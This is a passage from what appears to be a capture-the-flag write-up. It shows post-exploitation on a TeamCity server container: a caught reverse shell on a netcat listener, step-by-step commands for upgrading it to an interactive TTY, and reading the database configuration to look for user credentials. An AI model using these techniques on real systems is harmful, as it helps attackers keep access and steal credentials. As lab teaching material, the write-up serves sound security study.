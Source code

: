 ![shell received as tcuser on container](/assets/images/Runner/shell-received-as-tcuser-in-container.png)

Now I will do the tty treatment to have a completely interactive shell where I can do ctrl+c and ctrl+l among other things:

```bash
tcuser@647a82f29ca0:~/bin$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
   Welcome to TeamCity Server Docker container

 * Installation directory: /opt/teamcity
 * Logs directory:         /opt/teamcity/logs
 * Data directory:         /data/teamcity_server/datadir

   TeamCity will be running under 'tcuser' user (1000/1000)

tcuser@647a82f29ca0:~/bin$ ^Z
[1]  + 746936 suspended  nc -lvnp 443
❯ stty raw -echo; fg
[1]  + 746936 continued  nc -lvnp 443
                                     reset xterm
tcuser@647a82f29ca0:~/bin$ export TERM=xterm
tcuser@647a82f29ca0:~/bin$ export SHELL=bash
tcuser@647a82f29ca0:~/bin$ stty rows 50 cols 184
```

* `script /dev/null -c bash`: Spawns a tty.
* `ctrl+z`: puts the shell in background for later doing a treatment.
* `stty raw -echo;fg`: gives the shell back again.
* `reset xterm`: resets the terminal to give the bash console.
* `export TERM=xterm`: let do ctrl+l to clean the terminal.
* `export SHELL=bash`: specifies the system that it's using a bash console.
* `stty rows <YOUR ROWS> cols <YOUR COLUMNS>`: sets the size of the current full terminal window. It is possible to view the right size for your window running `stty size` in a entire new window on your terminal.

To enumerate the credentials of the registered users in teamcity, I will see its using a HSQLDB file to access the database in `/data/teamcity_server/datadir/config/database.properties`:

```bash
tcuser@647a82f29ca0:/data/teamcity_server/datadir/config$ cat database.properties
#Wed Feb 28 10:37:02 GMT 2024
connectionUrl=jdbc\:hsqldb\:file\:$TEAMCITY_SYSTEM_PATH/buildserver
```